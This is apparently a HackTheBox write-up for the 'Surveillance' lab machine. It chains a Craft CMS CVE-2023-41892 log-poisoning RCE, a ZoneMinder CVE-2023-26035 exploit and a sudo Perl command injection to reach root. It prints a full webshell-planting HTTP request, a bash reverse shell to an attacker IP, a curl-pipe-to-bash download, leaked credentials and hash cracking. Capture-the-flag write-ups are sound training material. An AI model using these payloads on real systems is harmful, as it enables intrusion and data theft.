


### Description:

This machine is a medium Linux. It features a vulnerability in CraftCMS, which consists of PHP object injection to gain RCE. Then another website based on ZoneMinder is vulnerable to unauthenticated RCE. Once on the machine, a command injection in a perl file permit to gain root access.

### Difficulty:

`medium`

# Enumeration

Only port 22 (ssh) and port 80 (http) are open on the machine.

```sh
nmap -sS -p- -A 10.129.42.16

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
```

Based on that, we visit the website. It turns out that the website `surveillance.htb` is powered by `Craft CMS 4.4.14`.

The version of the CMS used contains a vulnerability that leads to `Remote Code Execution` .

Exploit code: https://github.com/Faelian/CraftCMS_CVE-2023-41892

CVE: [CVE-2023-41892](https://nvd.nist.gov/vuln/detail/CVE-2023-41892)

From  [this](https://threatprotect.qualys.com/2023/09/25/craft-cms-remote-code-execution-vulnerability-cve-2023-41892/) Qualys blog post, we find informations on that vulnerabilty:

> Craft CMS has a relatively small pre-auth attack surface like other content management systems. But the \craft\controllers\ConditionsController class has a beforeAction method that may allow an attacker to create an arbitrary object.  
Craft CMS and its dependents’ code bases contain several tools that can invoke methods selectively, such as \GuzzleHttp\Psr7\FnStream or including arbitrary files. An attacker may inject some PHP code into the Craft CMS’s log file on successful exploitation.

The vulnerable code snipet from CraftCMS is the following:

```php
public function beforeAction($action): bool
{
   $baseConfig = Json::decodeIfJson($this->request->getBodyParam('config'));
   $config = $this->request->getBodyParam($baseConfig['name']);
   $newRuleType = ArrayHelper::remove($config, 'new-rule-type');
   $conditionsService = Craft::$app->getConditions();
   $this->_condition = $conditionsService->createCondition($config);
   Craft::configure($this->_condition, $baseConfig);
```

And a POC for the exploit:



### Public Exploit

As the goal in HackTheBox is to get root on the machine as fast as possible, I first used a public exploit found on Github (link above). See below for manual exploitation.

```py
python3 craft-cms.py http://surveillance.htb
```

### Manual Exploitation

This [article](https://blog.calif.io/p/craftcms-rce) shows us that we can poison the log and get a webshell by injecting php code inside the user-agent when the request is sent.

Don't forget to encode in base64 the webshell.

```http
POST /index.php HTTP/1.1
Host: surveillance.htb
User-Agent: <?php `echo PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4=|base64 -d > /var/www/html/craft/web/shell.php`;?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 239

action=conditions/render&configObject=craft\elements\conditions\ElementCondition&config={"name":"configObject","as ":{"class":"\\yii\\rbac\\PhpManager","__construct()":[{"itemFile":"/var/www/html/craft/storage/logs/web-2023-11-24.log"}]}}
```

Let's get our reverse shell now:

```sh
# get a reverse shell and a webserver to access it
echo -ne '#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.71/4444 0>&1' > bash.sh
python3 -m http.server 8888

# open a listening port
nc -lvnp 4444

# grab the shell on the webserver on our machine from the webserver
curl 'http://surveillance.htb/shell.php?cmd=curl+10.10.14.71:8888/bash.sh|bash'

# shell as www-data
www-data@surveillance:~/html/craft/web$
```
# Foothold

Now that we have access to the machine as `www-data`, we have to find a way to elevate our privileges. 

It turns out there is a `.env` file in `/var/www/html/craft` directory.

Inside it there is some valuable data:

```sh
# Read about configuration, here:
# https://craftcms.com/docs/4.x/config/

# The application ID used to to uniquely store session and cache data, mutex locks, and more
CRAFT_APP_ID=CraftCMS--070c5b0b-ee27-4e50-acdf-0436a93ca4c7

# The environment Craft is currently running in (dev, staging, production, etc.)
CRAFT_ENVIRONMENT=production

# The secure key Craft will use for hashing and encrypting data
CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_

# Database connection settings
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

# General settings (see config/general.php)
DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=false

PRIMARY_SITE_URL=http://surveillance.htb/
```

It looks like there is a database on `localhost` and port `3306`, with a username and a password.

Let's connect to it and retrieve some hashes.
The admin of the database is named Matthew and is the admin of the database.

```
admin@surveillance.htb | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe 
```

The hash type is `bcrypt` which we can try to crack with a wordlist.

```sh
echo '$2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe' > hash.txt

hashcat -m 1400 hash.txt /usr/share/wordlists/rockyou.txt -o result.txt

cat result.txt
 
$2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe:starcraft122490
```

Now we have a password: `startcraf122490`.

# Lateral Movement

Let's connect to ssh with the user `matthew` that we find before and the password we found.

```sh
matthew@surveillance:~$ id
uid=1000(matthew) gid=1000(matthew) groups=1000(matthew)

matthew@surveillance:~$ cat user.txt
341f4d5ae659ea4a5e40a0104f3f95d7
```

Check of active internet connections on the machine:

```sh
matthew@surveillance:~$ netstat -tnlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN
```

We want to port forward the port 8080 of the machine on our local port 80:

```sh
ssh -L 80:surveillance.htb:8080 matthew@surveillance.htb
```

# Privilege Escalation

Now we can visit `http://localhost:80` on our machine.

This lands us on a ZoneMinder login page. [ZoneMinder](https://github.com/ZoneMinder/zoneminder/tree/master) is open-source. When inspecting the code on github, the default credentials are `admin:admin`, which does not work on our end. Let's see if we can login with `admin:starcraft122490`.

The website is powered by the version 1036.32 of ZoneMinder, that is vulnerable to the [CVE-2023-26035](https://nvd.nist.gov/vuln/detail/CVE-2023-26035) which can lead to unauthenticated remote code execution (RCE).

> ZoneMinder is a free, open source Closed-circuit television software application for Linux which supports IP, USB and Analog cameras. Versions prior to 1.36.33 and 1.37.33 are vulnerable to Unauthenticated Remote Code Execution via Missing Authorization. There are no permissions check on the snapshot action, which expects an id to fetch an existing monitor but can be passed an object to create a new one instead. TriggerOn ends up calling shell_exec using the supplied Id. 

Metasploit added [this module](https://packetstormsecurity.com/files/175675/ZoneMinder-Snapshots-Command-Injection.html) to exploit this version of ZoneMinder.

We get a shell as zoneminder by using the metasploit module:

```sh
(remote) zoneminder@surveillance:/usr/share/zoneminder/www$ id
uid=1001(zoneminder) gid=1001(zoneminder) groups=1001(zoneminder)
(remote) zoneminder@surveillance:/usr/share/zoneminder/www$ whoami
zoneminder
```

Now let's try to get our root flag. 

```
(remote) zoneminder@surveillance:/usr/share/zoneminder/www$ sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```

It seems that our user can run sudo on every file with the extension `.pl` that starts with `zm` in the directory `/usr/bin/` and also add any arguments after.

The way I used to exploit this was unintended but I only learned that after.

Let's list all the matching perl files:

```sh
zoneminder@surveillance:/usr/share/zoneminder/www$ ls /usr/bin/zm*.pl
/usr/bin/zmaudit.pl        /usr/bin/zmonvif-trigger.pl  /usr/bin/zmtrack.pl
/usr/bin/zmcamtool.pl      /usr/bin/zmpkg.pl            /usr/bin/zmtrigger.pl
/usr/bin/zmcontrol.pl      /usr/bin/zmrecover.pl        /usr/bin/zmupdate.pl
/usr/bin/zmdc.pl           /usr/bin/zmstats.pl          /usr/bin/zmvideo.pl
/usr/bin/zmfilter.pl       /usr/bin/zmsystemctl.pl      /usr/bin/zmwatch.pl
/usr/bin/zmonvif-probe.pl  /usr/bin/zmtelemetry.pl      /usr/bin/zmx10.pl
```

Since we can run system commands in Perl with `exec, system, qx`, we'll look for those in the above files. Plus, since we can pass any argument we want to the perl file, we need to look for function that exec system commands with our arguments.

We found the `zmupdae.pl` file, that use `qx` with a command variable that we have impact on it.

```pl
   my $command = 'mysqldump';
      if ($super) {
        $command .= ' --defaults-file=/etc/mysql/debian.cnf';
      } elsif ($dbUser) {
        $command .= ' -u'.$dbUser;
        $command .= ' -p\''.$dbPass.'\'' if $dbPass;
      }
      if ( defined($portOrSocket) ) {
        if ( $portOrSocket =~ /^\// ) {
          $command .= ' -S'.$portOrSocket;
        } else {
          $command .= ' -h'.$host.' -P'.$portOrSocket;
        }
      } else {
        $command .= ' -h'.$host;
      }
      my $backup = '/tmp/zm/'.$Config{ZM_DB_NAME}.'-'.$version.'.dump';
      $command .= ' --add-drop-table --databases '.$Config{ZM_DB_NAME}.' > '.$backup;
      print("Creating backup to $backup. This may take several minutes.\n");
      ($command) = $command =~ /(.*)/; # detaint

[...]

   my $output = qx($command);
```

As we can pass any arguments we want to the file, and only the `-p` argument is sanitize in the code, let's try to inject some command in the other arguments.

Our payload consits of injecting command in the `-u` argument that is later used within the mysqldump command as root. This way, we can copy the content of the flag in `/root/root.txt` into a text file in `/tmp/`.

```sh
(remote) zoneminder@surveillance:/usr/share/zoneminder/www$ sudo zmupdate.pl -u '$(cat /root/root.txt
> /tmp/test3.txt)' -p test -v 2

Initiating database upgrade to version 1.36.32 from version 2

WARNING - You have specified an upgrade from version 2 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort :

Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : y
Creating backup to /tmp/zm/zm-2.dump. This may take several minutes.
mysqldump: Got error: 1698: "Access denied for user '-ptest'@'localhost'" when trying to connect
Output:
Command 'mysqldump -u$(cat /root/root.txt > /tmp/test3.txt) -p'test' -hlocalhost --add-drop-table --databases zm > /tmp/zm/zm-2.dump' exited with status: 2
```

Now we can read our flag:

```sh
(remote) zoneminder@surveillance:/usr/share/zoneminder/www$ cat /tmp/test3.txt
f691a1662035a60303060df4b3412305
````